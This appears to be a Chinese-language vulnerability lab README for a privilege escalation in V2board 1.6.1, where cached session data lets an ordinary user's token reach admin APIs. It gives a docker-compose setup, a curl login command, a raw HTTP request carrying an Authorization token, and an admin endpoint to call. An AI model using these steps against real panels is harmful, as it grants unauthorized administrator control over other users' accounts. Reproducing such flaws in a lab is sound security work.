



# V2board 1.6.1 提权漏洞

V2board是一个多用户代理工具管理面板。在其1.6.1版本中，引入了对于用户Session的缓存机制，服务器会将用户的认证信息储存在Redis缓存中。

但由于读取缓存时没有校验该用户是普通用户还是管理员，导致普通用户的认证信息即可访问管理员接口，造成提权漏洞。

参考链接：

- <https://github.com/v2board/v2board/commit/5976bcc65a61f7942ed4074b9274236d9d55d5f0>

## 漏洞环境

执行如下命令启动一个V2board 1.6.1版本服务器：

```
docker-compose up -d
```

服务启动后，访问`http://localhost:8080`即可查看到其登录页面。

## 漏洞复现

复现该漏洞，必须注册或找到一个普通用户账号。注册完成后，我们发送如下请求进行登录（将其中账号密码替换成你注册时使用的信息）：

```
curl -i -s -k -XPOST --data-binary "email=example%40example.com&password=a123123123" http://localhost:8080/api/v1/passport/auth/login
```

服务器会返回当前用户的认证信息“auth_data”：



拷贝这个认证信息，并替换到如下数据包的`Authorization`头中，发送：

```
GET /api/v1/user/info HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Authorization: ZXhhbXBsZUBleGFtcGxlLmNvbTokMnkkMTAkMVJpUFplR2RnZlFPSVRyWEM4dW0udW5QZVZNTGs3RlFFbkFVVnBwbEhmTlMyczdQaEpTa3E=
Cache-Control: max-age=0


```



这一步的目的是让服务器将我们的Authorization头写入缓存中。

最后，只需要带上这个Authorization头，即可使用所有管理员API了。例如`http://your-ip:8080/api/v1/admin/user/fetch`


